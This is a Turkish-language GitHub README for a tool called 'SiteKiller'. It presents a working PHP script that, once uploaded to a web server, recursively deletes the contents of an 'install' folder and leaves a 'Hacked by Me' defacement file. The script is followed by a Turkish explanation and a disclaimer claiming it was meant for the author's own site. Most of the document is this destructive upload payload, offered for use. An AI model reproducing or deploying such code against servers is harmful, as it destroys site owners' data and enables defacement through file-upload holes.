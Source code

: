 # SiteKiller
Site Yok Edici
Yüklendiği sunucuda 'install' klasörünün içindekileri silen ve klasörde 'test.txt' adında 'Hacked by Me' yazan bir belge oluşturan PHP kodu:

```php
<?php
$folderPath = 'install'; // Silinmek istenen klasörün yolu

// Klasördeki dosyaları silen fonksiyon
function deleteFolderContents($folderPath) {
    if (!is_dir($folderPath)) {
        return;
    }

    $files = glob($folderPath . '/*');
    foreach ($files as $file) {
        if (is_file($file)) {
            unlink($file);
        } elseif (is_dir($file)) {
            deleteFolderContents($file);
            rmdir($file);
        }
    }
}

// Klasörde 'test.txt' adında 'Hacked by Me' yazan bir belge oluşturan fonksiyon
function createTestFile($folderPath) {
    $filePath = $folderPath . '/test.txt';
    file_put_contents($filePath, 'Hacked by Me');
}

// Klasördeki dosyaları sil
deleteFolderContents($folderPath);

// 'test.txt' belgesini oluştur
createTestFile($folderPath);
?>
```

Yukarıdaki kodda, 'deleteFolderContents()' fonksiyonu ile 'install' klasöründeki dosyaları ve alt klasörleri sileriz. Ardından 'createTestFile()' fonksiyonu ile 'test.txt' adında bir belge oluştururuz ve içine 'Hacked by Me' yazdırırız.

Bu şekilde, 'install' klasöründeki içeriği silen ve klasörde 'test.txt' adında 'Hacked by Me' yazan bir belge oluşturan PHP kodunu kullanabilirsiniz. 

!!! Unutmayın, bu tür işlemleri gerçekleştirmeden önce dikkatli olmalı ve sunucunuzdaki dosyalara yazma izniniz olduğundan emin olmalısınız.
!!!BU ARAÇ KENDİ SİTEMİ SİLMEK İÇİN KOLAYCA DOSYA YÜKLEME YÖNTEMİNİ KULLANMAK İSTEDİĞİM İÇİN OLUŞTURULDU, BAŞKA SİTELERDE DENEMEYİN, BU SUÇTUR VE CEZAİ YAPTIRIMLARI OLUR.
